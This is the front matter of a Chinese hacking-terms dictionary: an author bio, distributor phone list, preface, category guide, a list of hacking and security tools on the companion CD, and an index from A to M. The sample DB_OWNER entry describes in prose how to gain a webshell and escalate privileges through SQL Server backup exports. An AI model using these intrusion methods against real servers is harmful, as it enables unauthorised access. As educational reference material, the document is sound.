## 黑客术语图文辞典

A B C D E F G H I J K L M N O P Q R S T U V W X Y Z

高康迪 编著


非安全·黑客手册 出品

# 黑客术语图文辞典

### 作者简介

高康迪，男，湖南岳阳人，邪恶八进制核心成员。  
网名：撕碎了的小C（曾用名：霜风）  
现就读于湖南工业大学通信工程专业


## 诺基亚·黑客手册全国代理商电话

- 哈尔滨 0451-88342321
- 鞍山 0412-2218341
- 包头 0472-4138751
- 保定 0312-2038408
- 北京 010-65302520
- 北京 010-66010529
- 沧州 0317-3015380
- 长春 0431-82700526
- 常德·衡阳 0736-7389148
- 常州 0519-88105882
- 成都 028-89935872 / 86667213
- 大同 0352-2021603
- 大连 0411-84600173
- 阜阳 0558-2271183 / 2233944
- 贵阳 0851-5984895 / 6819938
- 桂林 0773-2859586
- 武汉 027-85493562
- 杭州 0571-88256366
- 合肥 0551-2611465 / 7399358
- 衡水 0318-7902322
- 济南 0531-82903395
- 淮南 0554-6314707
- 昆明 0871-4168505
- 兰州 0931-8514919
- 柳州 0772-3111816
- 南昌 0791-8592332
- 南京 025-83328998
- 南宁 0771-2615676
- 南通 0513-85501751
- 宁波 0574-87660206
- 齐齐哈尔 0452-2634330
- 秦皇岛 0335-3691263
- 青岛 0532-83848881
- 深圳 0755-82264081
- 沈阳 024-23842760
- 石家庄 0311-83029157
- 太原 0351-7041968
- 唐山 0315-2259572
- 天津 022-27697711
- 乌鲁木齐 0991-5589830
- 无锡 0510-82827566
- 西安 029-82100804
- 邢台 0319-3090234
- 宜昌 0717-6443827
- 张家口 0313-2068200
- 威海 0631-5202057
- 潍坊 0533-2150683
- 上海 021-63760720
- 郑州 0371-67647276
- 烟台 0535-6200748
- 徐州 0516-83777678
- 绵阳 0816-2333211
- 苏州 0512-65188163
- 长沙 0731-6562796
- 重庆 023-67051607 / 67051833
- 任丘 0317-2254900
- 唐山 0315-229572
- 天津 022-34296413
- 邯郸 0310-3090822 / 7672216
- 福州 13960788097



### 前言

本辞典前前后后酝酿了两年多，各种宣传也做了两年，这期间，不断有读者通过论坛发帖、打电话、发邮件来咨询。在此，我代表《黑客手册》全体成员向大家说声抱歉，让大家久等了。所谓好女不怕晚，一本好辞典也同样如此，经过精心准备的《黑客术语图文辞典》英文术语版终于面世了。

《黑客术语图文辞典》英文术语版是本辞典的第1个版本，第2个版本“中文术语版”将在下个季度推出。

如果你看完“英文术语版”有什么建议和意见，烦请通过电子邮箱 **nohack@21cn.com** 反馈给我们，以便我们在“中文术语版”中作出改进。同时，如果你有什么中文术语需要解释，也请发邮件告知。

许多黑客技术爱好者在平时的学习中，很可能会遇到许多陌生的词汇，这些词汇给他们在学习技术时带来了诸多不便，在一定程度上阻碍了他们的前进步伐，所以当土豆交给我这个“神圣”的任务时，我觉得是相当有必要的。将大部分常见的黑客词汇整理收集，并给出相对准确的解释，能起到一定的引导作用，从而避免一些以讹传讹的发生。

众所周知，黑客技术之所以神秘，是因为它包含的内容广泛，几乎涉及到了计算机与网络的所有层面。一个精通程序算法的老兄也许能很轻易地写出 KMP 模式匹配，但可能对端口复用一头雾水；一个有多年经验的网络工程师也许能轻易地配置好负载均衡，但对缓冲区溢出的原理浑然不知。而作为一个真正的黑客，必须对计算机及网络技术都有充分的理解与深入的学习。

在一个渗透过程中，黑客可能首先要分析对方主机上的漏洞，这时就要对操作系统与操作系统上常用的服务软件有清楚的了解，再用调试技术分析其漏洞所在，并利用编程技术写出一个合适的 Exploit 进行攻击。如果对方开放了 WEB 服务，则会去寻找是否有合适的机会利用已掌握的脚本与数据库技术发起 SQL 注入攻击。当得到外部服务器权限之后，就要利用合适的工具来分析内部网络的情况，将路由器、交换机、网段的划分都要弄清，这里又要熟练地掌握网络技术。如果某台服务器做了 IP 限制，则会试图利用 IP 欺骗进行攻击，这里就必须对 IP 协议有深刻的理解。

所以编写一部黑客辞典其实就是编写了一部计算机与网络术语辞典。编写本书的过程并不轻松，是很辛苦的。对于本辞典来说，笔者只是整个接力赛的最后一棒，因为之前已有很多人作出了相当多的贡献。

下面是我们的一些感谢：

- 首先要感谢的是一位不愿意透露姓名的朋友，TA 提出了这个伟大的选题，并一直关心这本辞典的进度；
- 感谢 2 年前在职的编辑雅酷（vacou），他对辞典进行了第一次大致分类以及方向的确定；
- 感谢 PYTHON 提供了不少很好的点子；
- 感谢黑莲子、眼镜猴戴着厚厚的眼镜日夜不停地寻找术语；
- 编辑雅酷对整理好的词汇重新进行了整合和归类，剔除掉糟粕的部分，为词语全方位运作奠定了基础；
- 感谢 10086 提供加密解密相关的术语解释；
- 编辑星陨石碎再次对整理后的 2 千多个词汇进一步进行了筛选和编辑，并最终定下现在的词汇；
- 最后小 C 终于在奥运年奋力拼搏，光荣接过了这支沉甸甸的接力棒。

我们由衷地感谢围绕着术语辞典所作出努力和关心的所有朋友们。当然，还有其他不少朋友给予的许多好建议。最后还要感谢始终陪伴着我写完这本书的土豆，你一直是我的坚强后盾。

最后，希望这本书能为作为读者的你带来真正的帮助，这也是笔者的目标所在。

### 导读

这本辞典是专门为刚接触黑客技术并对其怀有极大兴趣与求知欲的朋友而写的，当然，它也同样适合有一定基础而想要深入学习的朋友。

本辞典有两个目录，一个是根据字母顺序进行编排的目录 A，另一个是根据其分类来编排的目录 B，你可以根据实际情况选择最快的一种方式进行查阅。

本辞典一共有 15 个分类，除了“黑客技术基础”与“特定名称”外，其余的都是按黑客技术的各个组成部分来进行分类。下面分别介绍一下各分类的含义以及主要包含的词汇。

### 黑客技术基础

正如前言所说，黑客技术基本包括了计算机与网络技术的方方面面，所以黑客技术基础是所有分类中最多的一个，其中包括了所有常见与热门的词语，常见的协议、端口与入侵方法都在这里，如“Google Hack”、“ping”、“XSS”、“TCP”等，当你经常看见一些词语但又不了解意思的话可以到这里找。当然，如果你是想恶补一下自己平时的盲点也可以仔细看一下这部分。

### 攻击方法与行为

黑客技术中的攻击方法繁多，而不同的攻击方法通过不同的方式组合起来就变成了更多的攻击行为，这个分类主要包含了入侵或攻击过程中的常见方法与行为，如“CC攻击”、“SQL注入”、“DDoS攻击”等。同时，如果你想寻找入侵或攻击的方法，也可以到这里找一些灵感。

### 操作系统及其相关

操作系统是计算机上所有活动的基础，不管是程序开发还是入侵，乃至提权，都需要对操作系统有详尽的了解。这个分类主要包含了与操作系统的一些机制、常见的文件、命令以及其他一些相关的词语，当然也包括操作系统本身，如“X-Window”、“Swap”、“Shell”、“PID”等。

### 脚本

脚本是网络上重要的一个技术，现在网络上形形色色的动态网站也都是在脚本的基础上建立起来的。如果脚本程序出现问题也会导致整个网站乃至整个服务器的沦陷，所以现在一直是国内黑客界热门的话题。这个分类包含了与脚本有关的技术及一些著名的脚本程序，如“FSO”、“PHPMyAdmin”、“OBlog”等。

### 数据库

在现代网络中，信息成了最核心的东西，而储存信息的数据库自然就成了安全性要求极高的部分。使用数据库可以带来许多好处，如：减少了数据的冗余度，从而大大地节省了数据的存储空间；实现数据资源的充分共享等等。此外，数据库技术还为用户提供了非常简便的使用手段，使用户易于编写有关数据库应用程序。数据库技术与脚本一起构成了一直火热的 SQL 注入技术。这个分类包含了主流数据库的介绍与数据库技术的核心部分，如“SQL Server”、“SQL语句”、“Oracle”等。

### 病毒与恶意软件

病毒应该是网络上最受关注的安全词语了，同时，恶意软件造成的恶劣影响也丝毫不在病毒之下，所以将这两个合并在一个分类。其中包括了“CIH”、“BOTNET”、“Slammer”蠕虫王等词条。

### 应用程序

在进行许多入侵渗透等黑客活动时，需要用到许多优秀的程序，这里汇集了很多中性的程序，既可用于防御与维护计算机或网络，也可用于攻击，如“Achilles”、“Sniffer Pro”、“WSockExpert”等。

### 黑客工具

黑客技术不能全依赖于工具，但同时也离不开好的工具，这个分类中包含了许多著名与优秀的黑客工具，包括“ARPSniffer”、“LCX.exe”、“NBSI”等，其中的一些包含了基本的使用方法与原理解析。

### 安全技术

有攻击就有防御，此分类中包含了许多安全防御方面的相关词条，包括常见的安全漏洞、安全防御工具与安全防御机制等，如“ACL”、“Acunetix WVS”、“SSH”等。

### 渗透技术

渗透技术作为黑客技术中最迷人的技术，其中到处闪烁着智慧的光芒。渗透不是简单的入侵，它应该是从外网进入内网，直到得到内网各个主机控制权的一个过程。它需要根据不同的情况来采取不同的对策，它是最能反映黑客技术水平的一项指标。这个分类里包含了一些基本的渗透方法，如“IP欺骗”、“DNS欺骗”、“Man In The Middle”等。

### 调试技术

调试技术是黑客技术中的一个重要分支，通过它可以了解程序运行流程，是发现程序漏洞的基础，如果真的熟练掌握了调试技术，也许就可以做到“给我一个程序，我就可以给你一份源代码”的境界。这里包含了一些简单的与调试技术有关的名词，如“DEBUG”、“EIP”、“ESP定律”等。

### 特定名称

这个分类中包含了许多与黑客技术有关的组织与约定俗成的名称，如“ANSI”、“Black hat”、“IBM”等。

### 程序语言与开发

“一个真正的黑客首先必须是一个好的程序员，”从这一句话中可以看出程序的编写能力对于黑客技术的重要性。这个分类包含了黑客技术常见的编程词汇，如“C32ASM”、“DLL线程插入”、“SOCKET”等。

### 加密解密

加密解密是黑客技术中永恒的话题，这个分类不单单只是密码学上的加密解密，更多的是包含人们俗称的“破解技术”（即关于程序的保护与破解技术）中的一些相关词汇与常用工具，如“IAT”、“MIRACL大数库”、“SOFTICE”等。

### 硬件

硬件是计算机的基础，自然也是黑客技术的基础，这个分类包含了与黑客技术息息相关的一些硬件，如“RJ-45”、“HUB”、“ROM”等。

介绍完各个分类后，就要讲解一下本书的其他一些细节问题。在许多词语的解释中也许会涉及到一些其他术语词汇，可能有的读者在查阅某个词语时会被其中的其他陌生词汇所困扰，然后又陷入不能理解的情况。为了避免这个问题，笔者在每个词汇的解释中对于本辞典有的一些词汇都做了标记，当你看到一个如“DNS”这样标示的词时，就表明它已经收录到本辞典，可以通过目录来进行查阅。如果这个词在同一页解释中多次出现，只会标记第一次出现的位置。

如对词语 DB_OWNER 的解释：

**DB_OWNER 是 SQL Server 数据库角色的一种，SQL Server 角色共分三个级别，按权限大小排序分别是 SA、DB_OWNER 和 PUBLIC。**

DB_OWNER 的意思就是数据库的拥有者，即可以对数据库的所有权限（比如添加、删除、修改、创建表、索引等）进行操作。由于 DB_OWNER 对许多系统内置的储存过程没有访问权限，所以用它来作为访问数据库的连接相对来说比较安全。现在很多程序员在写需要连接到数据库的程序时，都尽量使用 DB_OWNER 角色进行连接，如图 D-1 所示。



而当进行 SQL 注入的时候，如果遇到这种情况，难度就会增大许多。因为 DB_OWNER 的权限受限，所以不能够直接执行系统命令。另外，访问注册表也必须先将数据导入表后再导出。

一般对于 DB_OWNER 进行入侵的常用方法有两种：一是在数据库中插入一句话木马，再利用差异备份或 LOG 备份进行导出，得到 WEBShell；二是利用差异备份或 LOG 备份导出 BAT 文件或 HTA 文件，进行提权或其他操作。

从上面的解释中可以看到，“SQL Server”、“SA”、“PUBLIC”等词都做了特殊的标记，即粗体加深灰块背景，表明这些词语可以在辞典中查到。而当再次出现“SQL Server”时就没有做标记。另外，一些中文词语，如上面的“一句话木马”也做了特殊标记，即小粗体加下划线。这代表这个词语会在《黑客术语图文辞典》的中文词汇版中出现。

（在积极制作中，敬请期待！）。当你在解释中看到这些标记同时又不明白这个词的意思时，可以翻到前面的目录进行查阅。还要说明的是，在每一页的正上方都会有一个此页面中使用频率相对高的词语，方便读者查阅。

还需要说明的是，本书中的一些词语解释来源于网络或官方资料（如“Cisco”），同时，笔者还引用了一些《黑客手册》以前的优秀文章，它们分别是：风飘雨的《菜鸟玩转WMI实例篇》、王艺翔的《TCP 连接状态分析》、樱花浪子的《跨出精彩——酷蝶XP留言薄跨站》、冷雪书生的《菜鸟必修课之精通IP地址》与《浅谈ARP攻击与防御》、青蛙的《LINUX密码的梦—JOHN THE RIPPER》与曾云好的《精通脚本黑客》一书里的一些内容。最后感谢 10086 帮助解释的加密解密的词汇。

### 光盘目录

| 列1 | 列2 | 列3 |
|---|---|---|
| Achilles | OLLYDBG | HotFix |
| ACProtectV | Omziff | TEFS1.61 |
| Acunetix WVS | PCAnywhere | Teleport Ultra |
| Advanced AccessPassword Recovery | PEID | TouchNet |
| AMSN | Private EXE Protector | McAfee |
| DATASAFE | Radmin | NetStumbler |
| Ethereal | Registry Monitor | PDFStamp |
| exe2bat | RegSnap | VMProtect |
| File monitor | W32asm | Opera |
| fileinfo | Serv-U 纯数字暴力破解 | OmniPeek |
| FinalData | Smart NTFS Recovery | QQAV2004 |
| GhuoJ 捆绑检测工具 | SuperScan4 | WinHEX |
| GLOBALSCAPE SECURE FTP SERVER | Anti Spyware | Windows 优化大师 |
| WinRAR | Armadillo Professional | ahbomb |
| IceSword | CCProxy | All In One |
| IExpress | eXeScope | AircrackPack |
| IMPERATOR | RunIt31 | ARPSniffer |
| X-Scan-v3.3 | PDF2WORD | AirSnort |
| Iris4.07.1 | Netscape8 | Cain |
| tElock | SuperRAM | CASI |
| LeapFTP | Sniffer Pro | CNNSC 远程控制 |
| MYCCL | RegSpy | Dsniff |
| N.C.P.H 脚本杀手 | GAIM | ……更多请浏览光盘 |
| WSockExpert | SuperRam |  |
| NETxray | GHOST |  |

## 字母分类查询目录 A

### 数字

- 21端口 —— 黑客技术基础 —— 23
- 23端口 —— 黑客技术基础 —— 23
- 135端口 —— 黑客技术基础 —— 23
- 139端口 —— 黑客技术基础 —— 23
- 389端口 —— 黑客技术基础 —— 23
- 445端口 —— 黑客技术基础 —— 23
- 1433端口 —— 黑客技术基础 —— 24
- 3306端口 —— 黑客技术基础 —— 24
- 3389端口 —— 黑客技术基础 —— 24
- 00替换法 —— 攻击方法与行为 —— 27
- 127.0.0.1 —— 黑客技术基础 —— 27
- 2级代理 —— 黑客技术基础 —— 27
- 32位以及64位系统 —— 操作系统及其相关 —— 27
- 3389连接器 —— 黑客技术基础 —— 28

### A

- A类地址 —— 黑客技术基础 —— 28
- ACCESS —— 数据库 —— 28
- Achilles —— 应用程序 —— 28
- ACK —— 黑客技术基础 —— 29
- ACK扫描 —— 攻击方法与行为 —— 29
- ACK风暴 —— 黑客技术基础 —— 30
- ACL —— 安全技术 —— 30
- ActiveX插件 —— 黑客技术基础 —— 31
- Acunetix WVS —— 安全技术 —— 31
- Admin（Administrator）—— 黑客技术基础，操作系统及其相关 —— 32
- ADSL —— 黑客技术基础 —— 32
- ANSI —— 特定名称 —— 32
- Advanced AccessPassword Recovery —— 应用程序 —— 33
- AhBomb —— 黑客工具 —— 33
- AIO —— 黑客工具 —— 33
- Aircrack —— 黑客工具 —— 34
- Airsnort —— 黑客工具 —— 34
- AJAX技术 —— 程序语言与开发 —— 35
- AMSN —— 应用程序 —— 35
- Armadillo Professional —— 应用程序 —— 35
- ARP —— 黑客技术基础 —— 35
- ARP病毒 —— 病毒与恶意软件 —— 36
- ARP数据包 —— 黑客技术基础 —— 37
- ARP欺骗 —— 黑客技术基础 —— 38
- ANONYMOUS —— 黑客技术基础 —— 44
- Anti-Virus —— 安全技术 —— 44
- AntiCrack/ACProtect 2.0 —— 应用程序 —— 44
- AntiSpyware —— 应用程序 —— 45
- Apache —— 黑客技术基础 —— 45
- API —— 程序语言与开发 —— 45
- ArpSniffer —— 黑客工具 —— 45
- ASCII码 —— 黑客技术基础，程序语言与开发 —— 45
- ASM —— 程序语言与开发 —— 47
- ASP —— 脚本 —— 47
- ASP.NET —— 程序语言与开发 —— 47
- ASPACK —— 加密解密 —— 48
- ASP脚本 —— 脚本 —— 48
- ASP木马 —— 黑客工具 —— 48
- ASP加密 —— 黑客技术基础 —— 48
- Autorun.inf —— 操作系统及其相关 —— 49
- ANSKYA DOWNLOADER LITE —— 黑客工具 —— 49

### B

- Banner —— 渗透技术 —— 50
- Base64编码 —— 黑客技术基础 —— 50
- Bash —— 操作系统及其相关 —— 51
- B/S模式 —— 黑客技术基础 —— 52
- Bat —— 操作系统及其相关 —— 52
- BBS —— 黑客技术基础 —— 52
- Black hat —— 特定名称 —— 53
- BERYL —— 操作系统及其相关 —— 53
- BETA —— 特定名称 —— 53
- BIND —— 黑客技术基础 —— 53
- BIOS —— 硬件 —— 54
- BIT —— 黑客技术基础 —— 54
- Boot.ini —— 操作系统及其相关 —— 55
- BOOTP协议 —— 黑客技术基础 —— 55
- BotNet —— 病毒与恶意软件 —— 56
- Bug —— 特定名称 —— 57
- BXP架构 —— 黑客技术基础 —— 57
- B类地址 —— 黑客技术基础 —— 58

### C

- C-FREE —— 程序语言与开发 —— 58
- C/S模式 —— 黑客技术基础 —— 58
- C++ —— 程序语言与开发 —— 59
- C32ASM —— 程序语言与开发 —— 59
- CA —— 黑客工具，安全技术 —— 60
- Cache —— 硬件 —— 61
- CAIN（CAIN AND ABEL）—— 黑客工具 —— 61
- CASI —— 黑客工具 —— 63
- CAST-256算法 —— 安全技术 —— 64
- CCL —— 安全技术 —— 64
- CCProxy —— 应用程序 —— 65
- CC（攻击）—— 攻击方法与行为 —— 65
- CCNA/CCNP —— 特定名称 —— 67
- CDP —— 黑客技术基础 —— 67
- CGI —— 黑客技术基础 —— 67
- chmod —— 操作系统及其相关 —— 68
- Chm —— 操作系统及其相关 —— 68
- Chm网页木马 —— 攻击方法与行为 —— 68
- Chr() —— 程序语言与开发，攻击方法与行为 —— 68

# 黑客术语图文辞典

### C

- Challenge/Response 响应机制 黑客技术基础 69
- Cisco 特定名称 69
- ClariLog 黑客工具 69
- ClipBook 操作系统及其相关 69
- CLONE-克隆账户 渗透技术 70
- CLOSE-WAIT 黑客技术基础 70
- CLSID 操作系统及其相关 70
- CMD 操作系统及其相关 70
- CMS 特定名称 70
- CNNSC 远程控制 黑客工具 71
- ColdFusion 黑客技术基础 71
- Compiz Fusion 操作系统及其相关 71
- CONTENT-LENGTH 黑客技术基础 72
- Conn.asp 脚本 72
- Conn.asp 暴库法 攻击方法与行为 72
- Cookie 黑客技术基础 73
- Cookie 欺骗 黑客技术基础 73
- Cookie 注入 攻击方法与行为 73
- Crack 特定名称 74
- CRC 黑客技术基础 74
- Cron 操作系统及其相关 74
- CRON JOB 操作系统及其相关 74
- CROSS SITE SCRIPT 攻击方法与行为 74
- Crypto++库 特定名称 74
- Cscript 脚本 74
- CSDN 特定名称 75
- CSRSS 操作系统及其相关 75
- CSRF 攻击方法与行为 75
- CSS 黑客技术基础 75
- Cygwin 操作系统及其相关 75
- CIH 病毒与恶意软件 76

### D

- DataBase 数据库 76
- DATASAFE 应用程序 76
- DB_OWNER 数据库，渗透技术 76
- DOS/DoS 操作系统及其相关，攻击方法与行为 77
- DDOS 分布式拒绝服务攻击 攻击方法与行为 79
- Debug 调试技术 81
- Deception 黑客工具 81
- Delphi 程序语言与开发 81
- DELUSER 应用程序 82
- DEMO 特定名称 82
- DMZ 黑客技术基础 82
- DEP 保护系统 安全技术 83
- DHCP（服务器） 黑客技术基础 83
- Dig 命令 操作系统及其相关 84
- DISCUZ! 脚本 84
- DLL 操作系统及其相关 84
- DLL 木马 黑客技术基础，病毒与恶意软件 85
- DLL 线程插入 程序语言与开发 86
- DSL 黑客技术基础 87
- DNS 黑客技术基础 87
- DNS 欺骗 攻击方法与行为 87
- document.write() 脚本 90
- DOMAIN 黑客技术基础 90
- DR-DOS 操作系统及其相关 91
- DRDoS 攻击 攻击方法与行为 91
- Drop 数据库 91
- DSNIFF 黑客工具 92
- DSN 连接 数据库 92
- DVBBS 脚本 92

### E

- E-Mail 黑客技术基础 92
- E-Mail 欺骗 黑客技术基础 93
- echo 命令 操作系统及其相关 93
- ECHO 数据包 黑客技术基础 93
- Eclipse 程序语言与开发 93
- ECOS 操作系统及其相关 94
- ED2K 连接 黑客技术基础 94
- EFS 数据加密 安全技术 95
- EIGRP 黑客技术基础 95
- EIP 调试技术 96
- EIhttp 应用程序 96
- Emacs 程序语言与开发 96
- Enigma Protector 加密解密 96
- Escape() 加密解密 97
- ESMTP 黑客技术基础 97
- ESP（堆栈指针寄存器） 调试技术 97
- ESTI 特定名称 97
- ESP 定律 调试技术 98
- ETHEREAL 应用程序 98
- Ettercap 黑客工具 98
- Eval 脚本 99
- Everyone 权限 操作系统及其相关 99
- eWebEditor 黑客技术基础 99
- eXeScope 应用程序 100
- EXE 操作系统及其相关 100
- exe2bat 应用程序 100
- execute()函数 脚本 100
- Exeinfo PE 加密解密 100
- EXE Stealth 加密解密 100
- Exploit 特定名称 101
- eXpressor 加密解密 101
- EXT2 和 EXT3 操作系统及其相关 101

### F

- FAKE THE MAC ADDRESS 攻击方法与行为 102
- FAT 操作系统及其相关 102
- FAT32 操作系统及其相关 102
- Fedora 操作系统及其相关 103
- FC 操作系统及其相关 103
- FGet-FTP 应用程序 103
- FHS 应用程序 104
- File Monitor 应用程序 104
- FILEINFO 应用程序 104
- FinalData 应用程序 104
- Findpass 黑客工具 105
- FindPassword 黑客工具 105
- Finger 操作系统及其相关 105
- FIN 包 黑客技术基础 105
- Firefox 应用程序 106
- Flash 脚本的跨站漏洞 攻击方法与行为 106
- Form 黑客技术基础 106
- Fagrouter 黑客工具 106
- Frame 黑客技术基础 106
- FrameBorder 黑客技术基础 107
- FreeBSD 操作系统及其相关 107
- FreeDOS 操作系统及其相关 107
- FSO 脚本 108
- FTP 协议 黑客技术基础 108
- FTP 反弹 攻击方法与行为 109
- FTP 服务器 黑客技术基础 109
- Furax 黑客工具 109

### G

- Gaim 应用程序 110
- GCC 程序语言与开发 110
- GDI 程序语言与开发 110
- GET 黑客技术基础 111
- GETWEShell 黑客工具 111
- GFI LANguard 应用程序 111
- gFTP 远程目录遍历漏洞 安全技术 112
- GHOST 应用程序，安全技术 112
- Guol 捆绑检测工具 应用程序 113
- GINA 操作系统及其相关 113
- GINA 木马 黑客技术基础 113
- Gizmo 应用程序 113
- GlobalSCAPE Secure FTP Server 应用程序 114
- GMP 大数库 特定名称 114
- GMT 特定名称 114
- GNOME 操作系统及其相关 114
- GNU 操作系统及其相关 115
- GNU Privacy Guard 操作系统及其相关 115
- GNUPG 安全技术 115
- GNU 工具集 程序语言与开发 116
- Google 特定名称 116
- Google 黑客技术基础 116
- Google Hack 操作系统及其相关 117
- Google Talk 黑客技术基础 119
- GPEDIT.MSC 操作系统及其相关 119
- GPL 程序语言与开发 119
- GRANT 命令 数据库 119
- GRUB 操作系统及其相关 120
- GTK+ 程序语言与开发 120
- Guests 组 操作系统及其相关 120
- GUI 特定名称 120
- GYSI 黑客工具 121

### H

- HackerDefender 黑客工具 121
- Hacker's door 黑客工具 121
- HackerSmacker 黑客工具 122
- HASH 安全技术 122
- HUB 硬件 123
- HDSI 黑客工具 123
- HEAD 黑客技术基础 124
- HEX 码 加密解密 124
- HIDS 安全技术 124
- HOOK 安全技术 125
- HOOK API 安全技术 125
- HOST 黑客技术基础 126
- HOSTS 文件 操作系统及其相关 126
- Hotfix 应用程序，安全技术 126
- HotMail 黑客技术基础 126
- Hping2 黑客工具 126
- HTA 黑客技术基础 127
- HTML 黑客技术基础 127
- HTML 字符 黑客技术基础 128
- htran 黑客工具 128
- HTTP 黑客技术基础 128
- HTTPD 黑客技术基础 129
- HTTP 代理 黑客技术基础 129
- HTTP 隧道技术 黑客技术基础 129
- HTTP 头 黑客技术基础 130
- HTTP 响应头拆分漏洞 安全技术 130
- Hydra 黑客工具 130
- Hying's PE-Armor 应用程序，加密解密 130

### I

- IAT 加密解密 131
- IBM 特定名称 131
- IBM DB2 数据库 131
- IEEE 特定名称 131
- IceSword 应用程序，安全技术 131
- ICMP 黑客技术基础 132
- ICS 黑客技术基础 133
- ICO 文件 操作系统及其相关 133
- IDA 黑客技术基础 133
- IDE 程序语言与开发 133
- IDS 安全技术 134
- IPS 安全技术 134
- IE PassView 黑客工具 134
- IExpress 程序 应用程序 134
- IE 网页木马 黑客技术基础 135
- IFRAME 黑客技术基础 135
- IIS 黑客技术基础，操作系统及其相关 135
- IIS Banner 渗透技术 136
- IIS 来宾用户 操作系统及其相关 136
- IIS 写权限 渗透技术 136
- IKE 安全技术 137
- Imperator 应用程序 138
- ImportREC 加密解密 138
- INCLUDE 程序语言与开发 138
- INIDS 安全技术 138
- INT3 命令 调试技术 138
- Internet 黑客技术基础 139
- Internet Anonym Pro 应用程序 140
- ICANN 黑客技术基础 140
- Internet Explorer 黑客技术基础 141
- Ipconfig 操作系统及其相关 141
- IP Sniffer 渗透技术 141
- IPB 论坛 脚本 141
- IPC$ 黑客技术基础 142
- IPchains 应用程序，安全技术 144
- IPFWADM 安全技术 144
- IPSec 安全技术 144
- IP 欺骗 渗透技术 145
- IP Tables 操作系统及其相关 145
- IP 黑客技术基础 145
- IP 地址 黑客技术基础 146
- IPV4 与 IPV6 黑客技术基础 147
- IP 安全策略 安全技术 148
- IP 地址过滤 安全技术 150
- IP 限制 黑客技术基础 150
- IRC 黑客技术基础 150
- IRIS 应用程序 150
- ISAPI 操作系统及其相关 150
- ISO 标准 黑客技术基础 151
- ISO 文件 操作系统及其相关 151
- ISP 黑客技术基础 151
- IIS 管理器 操作系统及其相关 151
- Itanium 操作系统及其相关 151

### J

- Java 程序语言与开发 152
- JDK 程序语言与开发 152
- JavaScript 程序语言与开发，脚本 152
- JAVA 反编译器 程序语言与开发 153
- JAVA 脚本 脚本 153
- John The Ripper 黑客工具 153
- JOQ、POQ、VOQ、DOQ 特定名称 155
- JRE 程序语言与开发 155
- JS 程序语言与开发 155
- JScript.Encode 加密解密 155
- JSESSIONID 程序语言与开发 155
- JSP 程序语言与开发 156
- JSP WebShell 渗透技术 156
- JVM 程序语言与开发 157

### K

- K-Meleon CCF ME 应用程序 157
- Kerberos 安全技术 157
- KAV 应用程序，安全技术 158
- KDE 操作系统及其相关 159
- Kismet 应用程序 159
- Kubuntu 操作系统及其相关 160

### L

- L2TP 黑客技术基础 160
- LAMP 黑客技术基础 160
- LAN 黑客技术基础 161
- LAND 攻击 安全技术 161
- LANGUAGE2000 加密解密 161
- LSASS 操作系统及其相关 162
- Lcx.exe 黑客工具 162
- LeapFTP 应用程序 163
- Linux 操作系统及其相关 163
- Linux Kernel 操作系统及其相关 164
- Linux 目录结构 操作系统及其相关 165
- LISTEN 黑客技术基础 166
- LiveCD 操作系统及其相关 166
- LM 黑客技术基础 167
- LMHOSTS 操作系统及其相关 167
- Load_file 数据库 167
- LocalHost 黑客技术基础 167
- Log Monitor 安全技术 167
- LOGOFF 操作系统及其相关 167
- LongHorn 任务管理器 操作系统及其相关 168
- L0PHTCRACK 黑客工具 168
- LORDPE 加密解密 169
- LSA 溢出漏洞 安全技术 169
- LSB 操作系统及其相关 169
- LSOF 操作系统及其相关 170
- LTSP 操作系统及其相关 170
- LumaQQ 应用程序 171
- LVM 操作系统及其相关 171

### M

- MAC 协议 黑客技术基础 171
- MAC 地址 黑客技术基础 172
- MAC 广播包 黑客技术基础 172
- MAC 洪水攻击 攻击方法与行为 172
- Mailsnarf 黑客工具 172
- Mambo 黑客技术基础 173
- Man in the Middle 渗透技术 173
- Mandriva 操作系统及其相关 173
- Mac OS 操作系统及其相关 174
- MBR 硬件 174
- McAfee 应用程序，安全技术 174
- MD5 安全技术 174
- MD 命令 操作系统及其相关 175
- MD5 CRACK 黑客工具 175
- MD5SHA 高级解密器 黑客工具 176
